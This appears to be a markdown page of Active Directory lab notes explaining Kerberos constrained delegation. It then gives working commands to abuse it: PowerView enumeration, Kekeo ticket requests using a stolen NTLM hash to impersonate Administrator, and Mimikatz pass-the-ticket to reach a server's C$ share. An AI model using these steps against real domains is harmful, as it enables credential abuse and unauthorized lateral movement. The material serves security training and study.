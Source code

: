 

- A user - Joe, authenticates to the web service (running with service account websvc) using a non-Kerberos compatible authentication mechanism.
- The web service requests a ticket from the Key Distribution Center (KDC) for Joe's account without supplying a password, as the websvc account.
- The KDC checks the websvc userAccountControl value for the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute, and that Joe's account is not blocked for delegation. If OK it returns a forwardable ticket for Joe's account (**S4U2Self**).
- The service then passes this ticket back to the KDC and requests a service ticket for the CIFS/dcorp-mssql.dollarcorp.moneycorp.local service.
- The KDC checks the msDS-AllowedToDelegateTo field on the websvc account. If the service is listed it will return a service ticket for dcorp-mssql (**S4U2Proxy**).
- The web service can now authenticate to the CIFS on dcorp-mssql as Joe using the supplied TGS.


> To abuse constrained delegation in above scenario, we need to have access to the websvc account. 
> If we have access to that account, it is possible to access the services listed in **msDS-AllowedToDelegateTo** of the websvc account as ANY user.


### Discover Constrained Delegation 

**Enumerate users and computers with constrained delegation enabled**

Using PowerView:
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

Using ActiveDirectory module:
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```


#### Kekeo

**Abusing with Kekeo**

- Either plaintext password or NTLM hash/AES keys is required. We already have access to websvc's hash from dcorp-adminsrv

Using asktgt from Kekeo, we request a TGT (steps 2 & 3 in the diagram):
```powershell
kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
```

Using s4u from Kekeo, we request a TGS (steps 4 & 5):
```powershell
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL
```


Using mimikatz, inject the ticket:
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
	
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```
	